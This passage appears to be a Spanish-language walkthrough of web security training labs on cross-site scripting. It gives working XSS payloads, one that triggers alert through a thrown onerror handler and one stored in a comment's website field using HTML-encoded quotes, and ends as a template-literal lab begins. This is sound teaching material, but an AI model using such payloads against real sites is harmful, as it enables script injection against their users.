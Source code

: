 Entonces lo que haremos será generar un payload que ejecute un alert.

```
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window '',{x:'
```

![](img42.png)

## 17. Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

```
This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.
```

Payload en el lugar de website.

```
http://a.com&apos;-alert(document.domain)-&apos;
```

![](img43.png)

## 18. Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
This lab contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the alert function inside the template string.
```
